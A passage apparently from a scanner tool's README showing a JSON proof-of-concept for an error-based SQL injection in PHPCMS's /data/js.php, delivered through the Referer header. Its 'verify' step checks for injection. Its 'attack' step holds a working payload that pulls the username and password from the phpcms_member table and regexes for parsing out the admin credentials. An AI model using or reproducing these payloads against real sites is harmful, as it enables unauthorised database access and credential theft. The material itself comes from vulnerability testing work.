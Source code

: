 ```
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45,45),(SELECT md5(1)))a from information_schema.tables group by a)b), '0')#"},
                "status": "200",
                "match": {
                    "regex": ["c4ca4238a0b923820dcc509a6f75849b"],
                    "time":""
                }
            }
        ],
        "attack": [
            {
                "step": "0",
                "method": "get",
                "vulPath": "/data/js.php",
                "params": "id=1",
                "necessary": "",
                "headers": {"Referer":"1', (SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),char(45,45),(SELECT concat(username,char(45,45,45),password,char(45,45)) from phpcms_member limit 1))a from information_schema.tables group by a)b), '0')#"},
                "status":"200",                
                "match":{
                    "regex": ["Duplicate"],
                    "time": ""
                },
                "result":{
                    "AdminInfo":{
                        "Username":"<regex>--(.+)---",
                        "Password": "<regex>---(.+)--"
                    }
                }
            }
        ]
    }
}

```

使用json PoC 检测目标：

![verify](./images/poc_json_verify.png)
